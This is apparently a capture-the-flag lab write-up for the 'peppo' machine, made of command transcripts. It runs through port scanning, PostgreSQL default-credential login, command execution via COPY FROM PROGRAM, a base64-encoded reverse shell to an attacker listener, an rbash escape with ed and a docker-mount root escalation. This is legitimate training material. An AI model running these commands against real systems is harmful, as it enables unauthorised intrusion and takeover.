

# Information Collection

## Nmap

```bash
PORT      STATE  SERVICE
22/tcp    open   ssh
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
```


## Web enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/peppo]
└─$ feroxbuster --url http://192.168.183.60:8080 --wordlist=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -s 200
200      GET      182l      523w     7933c http://192.168.183.60:8080/search
200      GET      196l      471w     7312c http://192.168.183.60:8080/activity
200      GET       83l      174w     2002c http://192.168.183.60:8080/javascripts/responsive.js
200      GET       27l       69w      622c http://192.168.183.60:8080/stylesheets/tribute-3.7.3.css
200      GET      271l      686w    12258c http://192.168.183.60:8080/projects
200      GET        1l        1w        2c http://192.168.183.60:8080/issues/auto_complete
200      GET      136l      311w     5011c http://192.168.183.60:8080/login
200      GET      184l      523w     8530c http://192.168.183.60:8080/account/register
200      GET        7l      574w    27766c http://192.168.183.60:8080/stylesheets/jquery/jquery-ui-1.11.0.css
200      GET        2l      521w    32514c http://192.168.183.60:8080/javascripts/tribute-3.7.3.min.js
200      GET       35l      209w    10093c http://192.168.183.60:8080/favicon.ico
200      GET      860l     2032w    18168c http://192.168.183.60:8080/stylesheets/responsive.css
200      GET     1067l     2472w    30619c http://192.168.183.60:8080/javascripts/application.js
200      GET       14l       24w      517c http://192.168.183.60:8080/news.atom
200      GET       14l       24w      529c http://192.168.183.60:8080/activity.atom
200      GET      126l      287w     4602c http://192.168.183.60:8080/
200      GET      119l      297w     4784c http://192.168.183.60:8080/account/lost_password
200      GET      118l      404w     4230c http://192.168.183.60:8080/stylesheets/scm.css
200      GET      137l      339w     5361c http://192.168.183.60:8080/news
200      GET     1757l     6754w    67231c http://192.168.183.60:8080/stylesheets/application.css
200      GET       17l       51w      459c http://192.168.183.60:8080/404
200      GET      350l     1041w    19698c http://192.168.183.60:8080/issues/
200      GET        0l        0w   346651c http://192.168.183.60:8080/javascripts/jquery-2.2.4-ui-1.11.0-ujs-5.2.3.js
200      GET       14l       25w      536c http://192.168.183.60:8080/projects.atom
200      GET        6l       21w     1131c http://192.168.183.60:8080/images/calendar.png
200      GET        5l       10w      103c http://192.168.183.60:8080/robots
200      GET       57l      234w     2300c http://192.168.183.60:8080/stylesheets/context_menu.css
200      GET      256l      603w     7345c http://192.168.183.60:8080/javascripts/context_menu.js
200      GET       14l       24w      523c http://192.168.183.60:8080/issues.atom
200      GET        1l        1w       59c http://192.168.183.60:8080/issues.csv
200      GET       12l       23w      474c http://192.168.183.60:8080/issues/changes.atom
200      GET      399l     3342w   171517c http://192.168.183.60:8080/issues.pdf
200      GET      350l     1041w    19698c http://192.168.183.60:8080/issues
200      GET       19l       77w      648c http://192.168.183.60:8080/500
200      GET       12l       23w      474c http://192.168.183.60:8080/issues/changes

```


## Use default username and password to login postgreSQL 

`postgres:postgres`

Then try to execute as high permission.

```sql
┌──(aaron㉿aacai)-[~/Desktop/OSCPB]
└─$ psql -U postgres -h 192.168.183.60
Password for user postgres: 
psql (14.4 (Debian 14.4-1), server 12.3 (Debian 12.3-1.pgdg100+1))
Type "help" for help.

postgres=# \c postgres
psql (14.4 (Debian 14.4-1), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres=# \dt
Did not find any relations.
postgres=# DROP TABLE IF EXISTS cmd_exec;

NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# copy cmd_exec FROM PROGRAM 'id';
COPY 1
postgres=# select * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)


```

It's work, then try to rev shell

```sql
copy cmd_exec FROM PROGRAM '/bin/sh -i >& /dev/tcp/192.168.45.222/4444 0>&';
```

But it's error, try to encode to base64

```sql
postgres=# copy cmd_exec FROM PROGRAM '/bin/sh -i >& /dev/tcp/192.168.45.222/4444 0>&1';
ERROR:  program "/bin/sh -i >& /dev/tcp/192.168.45.222/4444 0>&1" failed
DETAIL:  child process exited with exit code 2
postgres=# 
```

```bash
copy cmd_exec FROM PROGRAM 'echo "L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIyMi80NDQ0IDA+JjE=" | base64 -d | bash';
```

Then get rev shell.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/peppo]
└─$ nc -lvnp 4444                                                  
listening on [any] 4444 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.183.60] 47038
/bin/sh: 0: can't access tty; job control turned off
$ whoami
postgres
```

But can't running any download commands with postgres user, seems that's a Rabbit Hole.

## Use ident-user-enum to enumeration username with every ports.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ident-user-enum 192.168.160.60 22 113 5432 8080 10000
ident-user-enum v1.0 ( http://pentestmonkey.net/tools/ident-user-enum )

192.168.160.60:22       root
192.168.160.60:113      nobody
192.168.160.60:5432     <unknown>
192.168.160.60:8080     <unknown>
192.168.160.60:10000    eleanor

```

Try to use simple password to login ssh.

`eleanor` is work.

```bash
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ssh root@192.168.160.60       
The authenticity of host '192.168.160.60 (192.168.160.60)' can't be established.
ED25519 key fingerprint is SHA256:GrHKbhpl4waMainGkiieqFVD5jgXi12zVmCIya8UR7M.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.160.60' (ED25519) to the list of known hosts.
root@192.168.160.60's password: 
Permission denied, please try again.                                                                  
┌──(aaron㉿aacai)-[~/Desktop/Script]
└─$ ssh eleanor@192.168.160.60
eleanor@192.168.160.60's password: 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
eleanor@peppo:~$ 
```

But the shell is rbash, just can run the limit commands.

```bash
eleanor@peppo:~$ id
-rbash: id: command not found            
eleanor@peppo:~$ echo $PATH
/home/eleanor/bin     
eleanor@peppo:~$ ls -l /home/eleanor/bin
lrwxrwxrwx 1 root root 10 Jun  1  2020 chmod -> /bin/chmod                               
lrwxrwxrwx 1 root root 10 Jun  1  2020 chown -> /bin/chown                                            
lrwxrwxrwx 1 root root  7 Jun  1  2020 ed -> /bin/ed                                                  
lrwxrwxrwx 1 root root  7 Jun  1  2020 ls -> /bin/ls                                                  
lrwxrwxrwx 1 root root  7 Jun  1  2020 mv -> /bin/mv
lrwxrwxrwx 1 root root  9 Jun  1  2020 ping -> /bin/ping
lrwxrwxrwx 1 root root 10 Jun  1  2020 sleep -> /bin/sleep
lrwxrwxrwx 1 root root 14 Jun  1  2020 touch -> /usr/bin/touch
eleanor@peppo:~$ 

```

Use `ed` to bypass rbash

```bash
eleanor@peppo:~$ ed
!'/bin/bash'
eleanor@peppo:~$ ls
bin  helloworld  local.txt

```

Seem like this machine is a docker container,  check on [GTFobins-docker](https://gtfobins.github.io/gtfobins/docker/), then use the shell to PE.

```dockerfile
docker run -v /:/mnt --rm -it postgre chroot /mnt sh
```


